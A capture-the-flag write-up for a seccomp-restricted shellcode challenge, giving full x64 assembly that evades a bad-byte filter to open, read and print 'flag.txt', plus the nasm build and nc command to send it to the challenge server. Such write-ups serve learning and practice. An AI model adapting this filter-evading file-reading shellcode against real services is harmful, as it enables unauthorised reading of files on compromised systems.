 ## Solution
This time there are even more restrictions. The syscalls stay the same, but now the shellcode can't be longer than 78 bytes and there can't be any bytes that are smaller than or equal to 2. So this time we have to get _crafty_. The restriction on bytes can be easily fixed by changing any `mov reg, 2` to `mov reg, 5; sub reg, 3` etc, but if we do this to the shellcode we had in the last task it becomes to long. I'm not exactly fluent in assembly so after some googling I discovered [this](https://zerosum0x0.blogspot.com/2014/12/x64-linux-polymorphic-read-file.html) blogpost which again reads from `/etc/passwd` with the same syscalls as before, but with a much smaller size. So I decided to modify this to our needs:

```asm
BITS 64
global _start

_start:

filename:
    xor esi, esi
    mul esi

    push rdx    ; '\0'

    mov rcx, 0x7478742e67616c66  ; 'flag.txt'
    push rcx

openfile:
    push rsp
    pop rdi

    mov al, 0x5
    sub al, 0x3
    syscall

readfile:
    push rax
    pop rdi
    
    push rsp
    pop rsi
    
    push rdx
    push rdx        ; saving lots of 0's
    push rdx
    push rdx
    pop rax
    mov dx, 0x999
    syscall

write:
    pop rdi
    inc edi
    
    push rax
    pop rdx
    pop rax
    inc eax
    syscall

leave:
    pop rax
    mov al, 60
    syscall
```

We can then compile this with `nasm -f bin shellcode.asm` and pipe it to the program:

```
> cat shellcode | nc seccomp2abyss_revenge.heltsikker.no 9011
```